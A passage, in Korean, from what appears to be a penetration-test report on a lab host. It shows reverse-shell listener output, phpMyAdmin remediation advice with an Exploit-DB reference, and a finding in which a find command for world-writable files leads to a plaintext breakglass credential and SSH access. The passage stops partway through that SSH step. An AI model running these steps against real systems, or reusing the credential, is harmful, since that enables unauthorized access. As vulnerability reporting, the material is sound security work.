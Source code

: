     listening on [any] 443 ...
    connect to [10.8.0.140] from (UNKNOWN) [172.31.249.155] 34848
    whoami;hostname;id
    www-data
    ip-172-31-249-155
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

#### 대응 방안
 - phpmyadmin을 최신버전인 5.2.1 버전으로 업데이트해 알려진 취약점을 해결한다.

 - phpmyadmin 로그인 계정 및 패스워드를 default 값이 아닌 임의의 값으로 변경한다.

#### 레퍼런스
 - phpMyAdmin 최신버전 https://www.phpmyadmin.net/downloads/
 - phpMyAdmin 버전 4.8.1 개념 증명 익스플로잇 https://www.exploit-db.com/exploits/50457

### 2. 하드코딩 된 계정 정보
#### 취약점 개요
|정보|설명|
|----|----|
|이름|하드코딩 된 계정 정보|
|중요도|상|
|위치|파일 위치: 루트 디렉토리 /.bobbyz_cred.txt|

#### 취약점 설명
 - 호스트 내의 .bobbyz_creds.txt 파일안에 하드코딩된 bobbyz 사용자의 계정 정보가 노출되어 있어 이를 통해 ssh를 사용하여 호스트로 접근 가능한 취약점으로 확인 된다.

#### 개념 증명
 - 호스트에서 `find / -type f -perm 0777` 명령어를 사용하여 퍼미션이 777인 /.bobbyz_cred.txt 파일을 발견하였고 cat 명령어를 사용하여 확인하니 bobbyz 사용자의 계정정보를 확인했다.
    ```sh
    # find 명령어를 사용하여 파일타입의 퍼미션이 777인 파일 모두 검색
    └ # find / -type f -perm 777 2>/dev/null

    /.bobbyz_creds.txt

    # cat 명령어를 사용하여 파일안에 하드코딩 되어있는 bobbyz 사용자 계정 정보 획득
    └ # cat ./.bobbyz_creds.txt

    Vault server breakglass creds - bobbyz:qwerty12
    ```

 - ssh를 사용하여 획득한 bobbyz 계정으로 접근을 시도했고 성공을 확인했다.
    ```sh
    # bobbyz 사용자 계정으로 ssh 연결 성공

